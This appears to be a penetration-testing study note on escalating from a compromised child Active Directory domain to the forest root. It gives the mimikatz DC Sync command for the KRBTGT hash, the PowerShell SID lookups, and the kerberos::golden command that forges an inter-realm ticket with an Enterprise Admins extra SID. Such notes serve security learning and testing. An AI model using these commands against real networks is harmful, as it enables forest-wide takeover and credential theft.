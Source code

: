 # Exploiting domain trusts

### Resources

1. **DCSync attack**

{% embed url="https://www.extrahop.com/resources/attacks/dcsync" %}

{% embed url="https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync" %}

2. **Kerberos notes**

{% embed url="https://jarrettgxz-sec.gitbook.io/windows/active-directory-ad/authentication-methods/kerberos" %}

3. Additional domain trusts exploitation resources

{% embed url="https://redfoxsec.com/blog/domain-trusts-exploitation-playbook/" %}

4. **KERB\_VALIDATION\_INFO**

* A structure where the `ExtraSids` field is specified

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/69e86ccc-85e3-41b9-b514-7d969cd0ed73" %}

### Terminologies

1. **Kerberos Ticket Granting Ticket** _(_**KRBTGT**)

* The service account for the Key Distribution Center (KDC) service
* This account is used to encrypt and sign all Kerberos tickets for the domain



2. **Golden ticket**

* A TGT is signed with the **KRBTGT** account's password hash
* Thus, with access to this hash, we will be able to forge a TGT for any user of our choice
* This ticket is known as a "_**Golden Ticket**_"

### Overview of exploiting domain trusts

In this attack, we abuse the trusts between domains in a forest. A particular trust between a parent and child domain can be exploited to forge an **Inter-Realm TGT** that can be used to gain access to the parent domain (refer to the sections below for more information).

#### Golden Ticket attack

Refer to the "_**Terminologies**_" section above for more details on the Golden Ticket.

In a Golden Ticket attack, an attacker who has obtained the **KRBTGT** account hash for a domain can forge their own Ticket Granting Ticket (TGT) for any user of their choice. This forged TGT, known as a Golden Ticket, is signed with the **KRBTGT** hash, making it appear valid to the domain’s Key Distribution Center (KDC).&#x20;

This particular TGT can be used to request service tickets (TGS) for any service as the specified user, effectively gaining unrestricted access within the domain (eg. _Administrator_).

> Note that without domain trust relationships, a golden ticket crafted for a particular domain will only work within that domain. Refer to the **Inter-realm TGT**s section below to understand how domain trusts can be exploited to further our privileges to other domains.

#### DC Sync attack

Given that we have obtained administrative privileges on a machine, we can perform a DC Sync attack to recover the **KRBTGT** account password hash. The found hash can be used to create an Inter-Realm TGT to exploit any domain trust configurations.

#### Inter-Realm TGTs

Inter-Realm TGTs are used to provide access to resources in other domains. A two-way relationship between a child and parent domain can be exploited to gain full access to the parent domain (refer to example below).&#x20;

### Example

Given that have compromised a child domain `A.DOMAIN.LOC`  with Tier 0 privileges. We can exploit the default bidirectional trust between the child and parent domain (`DOMAIN.LOC` ) to gain full access to the forest root domain.&#x20;

> Since there is only a single tree in the forest, the root/parent domain of the tree will be forest root domain.

Since we have Tier 0 admin privileges, we can perform a DC Sync to retrieve the **KRBTGT** password hash from our compromised machine:

{% code overflow="wrap" %}
```powershell
mimikatz # lsadump::dcsync /user:<domain>\krbtgt
...
Hash NTLM: xxxx
...
```
{% endcode %}

#### Inter-Realm TGT

{% embed url="https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/general/golden-ticket" %}

Before we can create the Inter-Realm TGT, we need to retrieve SIDs for the following:

a. Child domain controller (eg. `DC.A.DOMAIN.LOC`), which we will impersonate in our forged TGT

b. **Enterprise Admins** group in the parent domain (eg. `ROOTDC.DOMAIN.LOC`), to be used as the extra SID in our forged TGT (more information below)

We can use the AD-RSAT Powershell cmdlets to retrieve the values:

{% code overflow="wrap" %}
```powershell
PS> Get-ADComputer -Identity "DC"
...
SID: xxxx
PS> Get-ADGroup -Identity "Enterprise Admins" -Server ROOTDC.DOMAIN.LOC
...
SID: xxxx
```
{% endcode %}

Now, we can craft the Inter-Realm TGT:

{% code overflow="wrap" %}
```powershell
mimikatz # kerberos::golden /user:Administrator /domain:<child domain> /sid:<SID of child domain controller> /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
```
{% endcode %}

a. `/user:Administrator` : Specify that we are impersonating the Administrator user

b. `/domain` : To specify the child domain (the one we have compromised)

c. `/sid` : SID of the child DC that we have found earlier

d. `/rc4` : Password hash of the KRBTGT user. This is the value we retrieved from the DC Sync attack earlier

e. `/sids` : SID of the Enterprise Admins group that we have found earlier

f. `/ptt` : Perform pass-the-ticket to load the ticket to memory

Essentially, we are exploiting the trust that the parent domain has with our child domain (via the bidirectional trust relationship enabled by default within the tree) to trick the parent domain into providing us with privileges of the `Enterprise Admins` group via the `ExtraSids` section (`/sids`) of the Privilege Attribute Certificate (PAC) [KERB\_VALIDATION\_INFO](https://app.gitbook.com/u/rGB3mnyBDeZY1pztQar9CHTNHtt2) structure, granting us administrative privileges over the entire forest.



...


